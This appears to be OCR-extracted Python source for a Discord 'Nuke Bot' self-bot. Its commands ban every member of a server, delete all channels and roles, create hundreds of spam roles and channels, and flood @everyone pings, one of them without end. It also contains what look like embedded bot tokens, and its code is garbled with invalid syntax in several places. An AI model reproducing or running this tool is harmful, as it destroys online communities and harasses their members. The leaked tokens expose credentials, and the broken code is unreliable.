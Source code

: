 import discord
from discord.ext import commands
from aiohttp import request
import random
import time
import os
import numpy
import string
import json

with open('config.json') as f:
    config = json.load(f)
version = "2"
token = config.get('ODU2Nzg3MDczNDU3MDYxODk4.YNGHJA.FYkqJSQG5UL6HSsJi8C6tv9GASk')
silent = config.get('silent')
prefix = config.get(':')
JumboPic = "https://upload.wikimedia.org/wikipedia/commons/thumb/a/ae/Nuclear_symbol.svg/1200px-Nuclear_symbol.svg.png"
BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[1;94m', '\033[1;91m', '\33[1;97m', '\33[1;93m', '\033[1;35m', '\033[1;32m', '\033[0m'
helplog = ('''
[Destory] Deletes everything
[Ban_all] Bans all members
[Role_delete] Deletes all roles
[Role_spam] Spams roles
[Channel_delete] Deletes all channels
[Channel_spam] Spams channels
''')
client = commands.Bot(command_prefix = f'{:}', self_bot=True)
main = (f''' 
███╗   ██╗██╗   ██╗██╗  ██╗███████╗    ██████╗  ██████╗ ████████╗
████╗  ██║██║   ██║██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗╚══██╔══╝
██╔██╗ ██║██║   ██║█████╔╝ █████╗      ██████╔╝██║   ██║   ██║   
██║╚██╗██║██║   ██║██╔═██╗ ██╔══╝      ██╔══██╗██║   ██║   ██║   
██║ ╚████║╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝   ██║   
╚═╝  ╚═══╝ ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝    ╚═╝   
                                                                 
By Jammy#4613
Version : {version}
Silent mode : {silent}
Type {:}help for commands
''')
@client.event
async def on_ready():
    print(main)
    print("[:]Bot online")
client.remove_command('help')

@client.command()
async def help(ctx):
    await ctx.message.delete()
    embed = discord.Embed(color=ctx.author.color)
    embed.set_author(name="Nuke Bot / Made by Jammy#4613")
    embed.add_field(name="Destory", value="\nDeletes everything!", inline=False)
    embed.add_field(name="Ban_all", value="\nBans all users", inline=False)
    embed.add_field(name="Role_delete", value="\nDeletes all roles", inline=False)
    embed.add_field(name="Role_spam", value="\nSpams roles", inline=False)
    embed.add_field(name="Channel_delete", value="\nDeletes all channels", inline=False)
    embed.add_field(name="Channel_spam", value="\nDeletes all channels", inline=False)
    embed.add_field(name="Spam_ping", value="\nSpams a msg in all channels", inline=False)
    embed.add_field(name="Destroy_ping", value="\nSpams a msg in all channels infintly", inline=False)

    embed.set_thumbnail(url=JumboPic)
    if silent == 'on':
        await ctx.send(embed=embed)
    else:
        print(helplog)

@client.command()
async def channel_delete(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Deleting channels`")
    else:
        print("[:] Deleting channels")
    for channel in list(ctx.guild.channels):
        try:
            await channel.delete()    
        except:
            pass
@client.command()
async def spam_ping(ctx, *, message):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[!] Spamming channels")
    for channel in list(ctx.guild.channels):
        try:
            for _i in range(25):
                await channel.send(f"@everyone {blackwaters op }")    
        except:
            pass
@client.command()
async def destroy_ping(ctx, *, message):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[:] Spamming channels")
    for channel in list(ctx.guild.channels):
        try:
            while True:
                for _i in range(25):
                    await channel.send(f"@everyone {message}")    
        except:
            pass
@client.command()
async def ban_all(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Banning all users`")
    else:
        print("[:] Banning all users")
    for user in list(ctx.guild.members):
        try:
            await user.ban()
        except:
            pass   
@client.command()
async def role_delete(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Deleting all roles`")
    else:
        print("[:] Deleting all roles")
    for role in list(ctx.guild.roles):
        try:
            await role.delete()
        except:
            pass
@client.command()
async def role_spam(ctx, *, name):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming roles`")
    else:
        print("[:] Spamming roles")
    for _i in range(250):
        await ctx.guild.create_role(name=f"{blackwatersop}")
@client.command()
async def channel_spam(ctx, *, name):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[:] Spamming channels")
    for _i in range(250):
        await ctx.guild.create_text_channel(name=f"{nuked-by-blackwaters}")

@client.event
async def on_command_error(ctx, error):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"Command not found!", delete_after=3)
    else:
        print("[:] Command not found")

@client.command()
async def destroy(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"Destorying everything")
    else:
        print("[:] Destorying everything")
    for user in list(ctx.guild.members):
        try:
            await user.ban()
        except:
            pass 
    for channel in list(ctx.guild.channels):
        try:
            await channel.delete()    
        except:
            pass
    for role in list(ctx.guild.roles):
        try:
            await role.delete()
        except:
            pass
    for _i in range(250):
        await ctx.guild.create_role(name=f"Nuked-by-blackwatersop")
    for _i in range(250):
        await ctx.guild.create_text_channel(name=f"Nuked-by-blackwaters")
    print("Attack finished")
client.run(ODU2Nzg3MDczNDU3MDYxODk4.YNGHJA.IKQN4TrpEawOwwGqGiwIOOGKfeo, bot=true)
